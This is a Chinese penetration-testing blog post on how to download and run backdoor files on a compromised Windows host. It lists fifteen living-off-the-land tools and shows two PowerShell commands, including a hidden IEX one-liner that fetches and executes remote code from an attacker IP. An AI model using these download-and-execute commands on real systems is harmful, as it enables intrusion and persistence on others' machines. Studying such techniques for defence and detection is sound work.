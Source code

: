 ```yaml
---
title: 第03章：权限维持篇第5篇：Windows命令行文件下载方式汇总
date: '2024-06-13 13:10'
categories: 渗透测试
tags: 应急响应
cover: 'https://gitee.com/eviden/img/raw/master/33591dfae30e46459108dc785e1217a9.png'
description: 学习应急响应咯!
abbrlink: 14bca439
---
```

                
当我们通过Web渗透获取了一个Shell，而且目标主机是Windows，我们该怎么去下载后门文件到目标主机上执行呢？

一般来说，实现Windows文件下载执行的方式不外乎以下几种方式。第一种，远程下载文件到本地，然后再执行；**第二种，远程下载执行，执行过程没有二进制文件落地，这种方式已然成为后门文件下载执行的首要方式****。**另外呢，只要你所在服务器的环境支持，你也可以通过任何一门语言来实现它，这种方式暂不在本文的讨论范围之内。

**在这里，****本文收集了15种常见的文件下载执行的方式，并结合具体案例**，让我们一起来看看是怎么实现的吧。

------

- PowerShell
- Bitsadmin
- certutil
- wget
- ipc$文件共享
- FTP
- TFTP
- WinScp
- msiexec
- IEExec
- mshta
- rundll32
- regsvr32 
- MSXSL.EXE
- pubprn.vbs

------

**1、PowerShell**

PowerShell是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用。

远程下载文件保存在本地：

~~~
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
~~~

远程执行命令：

~~~
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
~~~
